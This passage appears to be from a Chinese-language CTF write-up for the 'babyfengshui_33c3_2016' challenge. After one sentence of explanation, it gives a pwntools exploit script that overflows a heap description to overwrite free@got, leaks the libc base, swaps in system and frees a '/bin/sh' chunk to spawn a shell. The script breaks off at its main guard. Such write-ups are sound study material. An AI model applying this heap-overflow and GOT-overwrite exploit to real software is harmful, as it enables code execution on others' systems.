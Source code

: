 故考虑先覆写第二个大块中的description addr为free@got后泄漏出libc的基址，后再修改free@got为system函数地址后释放一个内容为`"/bin/sh"`的chunk即可通过`system("/bin/sh")`来get shell

构造exp如下：

```
from pwn import *
p = process('./babyfengshui_33c3_2016') 
e = ELF('./babyfengshui_33c3_2016')
libc = ELF('./libc-2.23.so')

def cmd(command:int):
    p.recvuntil(b"Action: ")
    p.sendline(str(command).encode())

def new(size:int, name, length:int, descryption):
    cmd(0)
    p.recvuntil(b"size of description: ")
    p.sendline(str(size).encode())
    p.recvuntil(b"name: ")
    p.sendline(name)
    p.recvuntil(b"text length: ")
    p.sendline(str(length).encode())
    p.recvuntil(b"text: ")
    p.sendline(descryption)

def free(index:int):
    cmd(1)
    p.recvuntil(b"index: ")
    p.sendline(str(index).encode())

def show(index:int):
    cmd(2)
    p.recvuntil(b"index: ")
    p.sendline(str(index).encode())

def edit(index:int, length:int, descryption):
    cmd(3)
    p.recvuntil(b"index: ")
    p.sendline(str(index).encode())
    p.recvuntil(b"text length: ")
    p.sendline(str(length).encode())
    p.recvuntil(b"text: ")
    p.sendline(descryption)

def exp():
    new(0x80, "arttnba3", 0x10, "arttnba3") 
    new(0x10, "arttnba3", 0x10, "arttnba3") 
    new(0x10, "arttnba3", 0x10, "/bin/sh\x00") 
    free(0)

    big_size = 0x80 + 8 + 0x80
    padding_length = 0x80 + 8 + 0x80 + 8 + 0x10 + 8
    new(big_size, "arttnba3", padding_length + 4, b'A' * padding_length + p32(e.got['free'])) 
    show(1)

    p.recvuntil(b"description: ")
    free_addr = u32(p.recv(4))
    libc_base = free_addr - libc.sym['free']

    edit(1, 0x10, p32(libc_base + libc.sym['system']))
    free(2)
    p.interactive()

if __name__ == "__main__":
```